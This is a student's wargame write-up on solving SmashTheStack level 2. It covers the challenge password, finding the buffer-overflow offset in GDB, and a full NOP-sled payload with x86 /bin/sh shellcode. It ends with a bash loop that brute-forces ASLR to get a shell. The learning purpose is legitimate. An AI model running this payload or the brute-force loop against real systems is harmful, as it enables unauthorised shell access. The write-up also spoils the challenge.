







# Week 8 - SmashTheStack (for real this time)

Sasha Thomas

May 20th 2020

## Introduction and Materials

This week, I finished the 2nd SmashTheStack challenge in their logic wargame. 

I used GDB, Python, a really old intro to C textbook, and a lot of google searches. 

I'm going to split up my process into two parts; the buffer overflow, and bypassing ASLR, as these were so new to me they were basically two different challenges. 

## Steps to Reproduce (Buffer Overflow)

1. Going into SmashTheStack with only a very rudimentary understanding of how the CPU operates, I was lost as to how any of it related to SmashTheStack (a feeling that I've started to get used to). Before I started doing anything, I spent a few hours every day firehosing myself with information from my textbook, YouTube, and what I found on Google. I did this for a few days before getting into buffer overflows so I wouldn't feel as lost (spoiler: I was still lost). Eventually, when I started reading about buffer overflows, many of the concepts and terminology I had at least seen, so I could go back and reference them when I was confused. 

2. The second level of SmashTheStack gives you the following C program:

   ```C
   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>
   #include <unistd.h>
   
   int main(int argc, const char **argv) {
   	if (argc < 2) { printf("Fail. More Args...\n"); return 1; }
   	else {
   		setresuid(geteuid(),geteuid(),geteuid());
   		char buf2[4096];
   		char buf[16];
   		const char password[]="XXXXXXXXXXX";
   		strncpy(buf, argv[1], sizeof(buf) - 1);
   		if (strcmp(buf,password) != 0) {
   			printf("Wrong.\n");
   			return 1;
   		}
   		else {
   			strcpy(buf2,argv[2]);
   			printf("%s",buf2);
   			return 0;
   		}
   	}
   }
   ```

   So, I first needed a password (it was intentionally X'd out). Using the `strings` command (which I learned from a previous lab!) on `level2` gave me an interesting string:

   

   Knowing that `level2` required an argument, running it with the `fsckmelogic` resulted in a segmentation fault:

   

3. So I knew I was getting somewhere, but I was a little stuck, conceptually. My basic understanding was that a segmentation fault meant a program was trying to access memory which it wasn't allowed to. I had only seen this within the context of a buffer overflow, and it didn't seem like I was overflowing anything. Upon examining the code further, I realized there were actually two arguments, and when I added another argument, the program printed the second argument and exited normally. 

4. Examining this with GDB (this program took me some time to get comfortable with), I found that without a second argument, the EIP was pointing to `<strcopy+16>`, so I figured that this second argument is where I would place my payload. 

5. Creating the payload was an exercise in many, many rounds of trial and error. But doing this over and over again really helped me grasp the basics of buffer overflow. First, seeing that this was expecting 4096 bytes of data, I tried giving it 4097 bytes of data to see what would happen:

   

   But no such luck. I tried incrementally adding 8 characters to 4096, until I found that anything above 4107 bytes would successfuly create a segmentation fault:

   

6. From my research, I had a vague idea that the next step would be to take control of the EIP. Adding a couple more A's to the end of my buffer, I found that I needed 4108 bytes to create the segmentation fault, and adding four bytes to the end of my buffer would successfully overwrite the EIP!

   

7. This was, unfortunately, the beginning of my real struggles. The concept behind a NOP sled was still confusing to me, and I wasn't sure how to find an address to go back to, as many of the guides I read told me I needed. What I found is that all the buffer overflows had the following general structure:

   `NOP sled + shell code + return address`

   Eventually, things started to make more sense. The NOP sled is there to give your shell code a better chance of being reached. If you can successfully pick a return address anywhere in your NOP sled, it will "slide" down and reach your shell code. From here, I knew exactly what I had to do. If I replaced my A's with `\x90`'s, found the right shell code, and then picked the right memory address, everything would go perfectly. Or, so I thought. 

8. Crafting this took me a little while, especially because I needed to do math to account for my shell code.  I found shell code which was 28 bytes (and matched x86 architecture of the cpu), and multiplied my return address 10 times to give a little more padding. My final payload (without the correct return address) was the following:

   ```
   fsckmelogic `python -c 'print("\x90"*4056 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x41\x41\x41\x42" * 10)'`
   ```

   And running this would successfully overwrite the EIP with `0x42414141` (I also needed to learn about little endianness).

9. All I needed to do was find an address in my NOP sled. Examining the stack pointers with GDB, I went to around the middle of the NOP sled (using the command `x/200xb $esp-2000`, a function of GDB I learned from my textbook), and picked a random address:

   

   I figured `0xbfadb000` was easy to remember. I copied it into my payload (backwards!!), and hit enter, eagerly awaiting the shell I worked so hard for. 

## Steps to Reproduce (Bypassing ASLR)

1. So now we're on a new part, and there's no picture of a shell. Hopefully by now it's clear that my payload didn't work. No shell, no syntax error, just the same segmentation fault. Could I have picked a bad memory address? Maybe I screwed up my little-endian conversion. I double checked; the address was correct. Maybe I got super unlucky, and picked an address it skipped? I tried again, picking an address closer to the payload, around the stack pointer - 1000. Didn't work. I picked an address far away, around - 3500. Nope. 

2. After doing this a few times, I figured it couldn't have been a coincedence. Something jumped out at me when I was comparing my process to buffer overflows online. My addresses were suspiciously different each time I ran the program in GDB. At first, I assumed it was because I was looking at different parts of memory. But when I ran it multiple times, and looked at the same parts of memory, it was almost as if the addresses were, dare I say, random. 

3. My fears were right. A little research brought me to ASLR, or Address Space Layout Randomization, a computer security technique which randomly offsets the positions of the stack. How was I supposed to pull this off now? I assumed this was a mistake on SmashTheStack's part, but their IRC told me otherwise.

4. Guides and techniques to bypass ASLR are few and far between, relative to the amount of information there is about buffer overflow. In fact, I found that most buffer overflow guides had you turn off ASLR for the duration of the exploit. That didn't give me much confidence. Even without knowing much, I figured I had two options; find a way to predict the offset, or just brute force it. The information I found about exploiting ASLR confirmed this.

5. I went down a dozen rabbit holes trying to find information related to exploiting ASLR. Many of the techniques were for very specific situations, so finding a way to predict the address seemed difficult. One of the techniques is through informations leaks, but this is a two step process, in the sense that you use an exploit to get a valid memory address, and then push that address into a second exploit which can compute the offsets and target a second vulnerability. Since I could only interact with the program once, I wasn't sure how to implement this method. 

6. Another technique I found was a partial EIP overwrite, which I attempted to pull of without success. After trying these techniques for about two hours, I decided to try brute forcing it. The reasons I thought this could work is because of the x86 CPU. Had this been 64bit, I think there would have been too much entropy. But, theoretically, since I needed to worry about such few values, given a reasonable amount of time, it should work. 

7. My first attempts were using Python, and either these failed because of my syntax, or I happened to get unlucky. This was part of why I found bypassing ASLR difficult; I never knew if my code didn't work, or it simply hadn't found a match yet. I needed to be 100% sure that, when my return address matched the random one, it was going to work, and it felt impossible to know for certain.

8. After letting a couple renditions of my Python script trying about 2000 times (which only took a few minutes), I decided to go even simpler route, and create a bash script that would do the same thing. My first attempt, I wrote probably one of the worst scripts I've ever written:

   ```bash
   while true
   do
   /levels/level2/level2 fsckmelogic `python -c 'print("\x90"*4056 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" +
   "\x32\x68\xbc\xbf" * 10)'`
   
   done
   ```

   The return address was one of the first ones I encountered, before I realized I was dealing with ASLR.

9. I let it run, and surprisingly, it found a match after running for about two minutes!

    

## Results and Discussion

I feel good about having successfully finished the challenge, and I feel even better about the amount that I learned. This is obviously a super basic example of a buffer overflow, but I wouldn't call it easy (for me); there was a lot of other information and concepts I needed to grasp in order to do it. Plus, the added challenge of ASLR made it feel much more grounded, like something I would actually see in the real world (I think most computers have ASLR).

In terms of security practices, I found ASLR to be an interesting solution to buffer overflow. To me, it feels like a band-aid solution of sorts. It doesn't actually prevent the overflow from happening, it only makes it harder to pull off. I understand the idea; it doesn't matter if you control the EIP if you don't know where to jump to. But at the same time, it doesn't address the root of the problem, so I see why it is vulnerable. On modern systems, I believe it does a much better job at protecting from buffer overflows, but obviously older systems are still vulnerable.  

## Conclusion

SmashTheStack has definitely made me more interested in this "path," and I want to do more challenges even after this class ends. I found the challenge and frustration to be incredibly rewarding, even though I spent many hours on it. I learned a lot of basic ideas, and I'm looking forward to applying them to more problems I come across. 
